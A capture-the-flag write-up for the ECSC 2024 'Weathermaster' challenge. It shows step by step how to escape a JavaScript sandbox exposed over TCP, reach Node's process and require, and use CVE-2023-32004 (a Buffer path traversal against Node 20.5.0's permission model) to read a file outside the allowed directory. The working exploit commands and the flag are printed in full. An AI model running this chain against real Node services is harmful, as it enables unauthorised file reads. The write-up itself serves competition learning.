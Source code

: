 # Weathermaster

> I've found this weather station online - it has an open TCP port with no authentication, but there's also nothing particularly interesting on it, or do you think there might be something?
>
> `nc weathermaster.ecsc24.hack.cert.pl 5105`

## Solution
The "execute code" option has an interesting behaviour when you try to `print()`:
```
>> ! print("pwned")
! print("pwned")
pwned
undefined
```
`undefined` suggests the use of JavaScript. Let's try printing `this`:
```
>> ! this
! this
{ print: [Function: log] }
```
The only global object is the function `print`, so we're in some sort of a jail. Escaping these in JS is usually not that hard - turns out it is possible to easily print the process information by using `! this.constructor.constructor('return this.process')()`. We can read some interesting information from that, e.g. Node version is 20.5.0 and the program is executed with the following arguments:
```
argv: [ '/usr/local/bin/node', '/app/index.js' ],
execArgv: [ '--experimental-permission', '--allow-fs-read=/app/*' ]
```
The experimantal API that allows only reading files from specific directories (`/app` in this case) is used. Luckily, as we can read e.g. [here](https://nodejs.org/en/blog/vulnerability/august-2023-security-releases), Node 20.5.0 is affected by CVE-2023-32004, so we can bypass this check by doing path traversal in a `Buffer` object instead of a normal string. The exploit is pretty straightforward:
```
>> ! let process = this.constructor.constructor('return this.process')()
! let process = this.constructor.constructor('return this.process')()
undefined
>> ! let require = process.mainModule.require
! let require = process.mainModule.require
undefined
>> ! let Buffer = require('buffer').Buffer
! let Buffer = require('buffer').Buffer
undefined
>> ! let fs = require('fs')
! let fs = require('fs')
undefined
>> ! let path = Buffer.from('/app/../flag.txt')
! let path = Buffer.from('/app/../flag.txt')
undefined
>> ! fs.readFileSync(path).toString()
! fs.readFileSync(path).toString()
ecsc24{whats_th3_f0recast_f0r_nodejs?}
```

## Flag
`ecsc24{whats_th3_f0recast_f0r_nodejs?}`
